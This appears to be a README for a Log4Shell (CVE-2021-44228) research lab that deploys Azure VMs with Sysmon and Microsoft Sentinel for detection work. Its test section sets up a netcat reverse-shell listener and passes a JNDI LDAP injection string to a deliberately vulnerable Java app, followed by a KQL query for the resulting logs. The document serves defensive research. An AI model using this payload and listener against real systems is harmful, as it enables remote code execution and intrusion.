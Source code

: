 # CVE-2021-44228 Log4Shell Research Lab Environment

[![Deploy to Azure](https://aka.ms/deploytoazurebutton)](https://portal.azure.com/#create/Microsoft.Template/uri/https%3A%2F%2Fraw.githubusercontent.com%2FOTRF%2FMicrosoft-Sentinel2Go%2Fmaster%2Fgrocery-list%2FLinux%2Fdemos%2FCVE-2021-44228-Log4Shell%2Fazuredeploy.json)

## Metadata

* **Author:** [Roberto Rodriguez (@Cyb3rWard0g)](https://twitter.com/Cyb3rWard0g)
* **Deployment time:** 5-10 mins

## Grocery Items

* Microsoft Sentinel
    * Would you like to Bring-Your-Own Microsoft Sentinel?.
    * If so, set the `workspaceId` and `workspaceKey` parameters of your own workspace.
* 2 Linux VMs: `Ubuntu 18.04.6 LTS` - Kernel release: `5.4.0-1059-azure `
    * `UBUNTU5`
        * [Log Analytics Agent for Linux](https://github.com/microsoft/OMS-Agent-for-Linux) installed
        * It connects to the Microsoft Log Analytics workspace defined in the template.
        * [Syslog Data Connector](https://docs.microsoft.com/en-us/azure/sentinel/connect-syslog) enabled
        * Linux Syslog Facilities collected
            * `user`
        * [Sysmon for Linux installed](https://github.com/Sysinternals/SysmonForLinux)
            * [Sysmon for Linux installer](https://github.com/OTRF/Blacksmith/blob/master/resources/scripts/bash/Install-Sysmon-For-Linux.sh)
            * [Sysmon configuration](https://github.com/OTRF/Blacksmith/blob/master/resources/configs/sysmon/linux/sysmon.xml)
    * `UBUNTU6`
        * LDAP Reference server
        * Web server

## Validate Environment

### UBUNTU5
SSH to `UBUNTU5` box and check for `Sysmon for Linux` running:

```bash
service sysmon status
```
### UBUNTU6
SSH to `UBUNTU6` box to make sure the `LDAPRefServer` and `Nginx (Web Server)` are running:

```bash
docker ps

docker logs --follow ldap-server
docker logs --follow web-server
```

## Run Basic Test

This scenario simulates an attacker using the log4j RCE vulnerability to get a reverse shell via netcat.
### UBUNTU6

Start a netcat listener on port `443`:

```
nc -lvnp 443
```

### UBUNTU5

Vulnerable app was compiled during the deployment of the Azure VM.

```
cd vulnApps/basicJar
java -cp target/Log4jLabProject-1.0-SNAPSHOT-all.jar com.log4jshell.App '${jndi:ldap://127.0.0.1:1389/Run}'
```

![](../../../../resources/images/log4jshell-trigger-rce-basicjar-reverseshell3.png)

## Query Microsoft Sentinel

Check your Sysmon logs:

```
Syslog 
| extend EventID = parse_xml(SyslogMessage).Event.System.EventID 
| extend EventData = parse_xml(SyslogMessage).Event.EventData.Data 
| mv-expand bagexpansion=array EventData 
| evaluate bag_unpack(EventData) 
| extend Key=tostring(['@Name']), Value=['#text'] 
| evaluate pivot( 
    Key, any(Value), TimeGenerated, TenantId, SourceSystem, 
    EventID, Computer, Facility, SeverityLevel, HostIP, MG, Type, _ResourceId 
)
```

## References
* https://github.com/Cyb3rWard0g/log4jshell-lab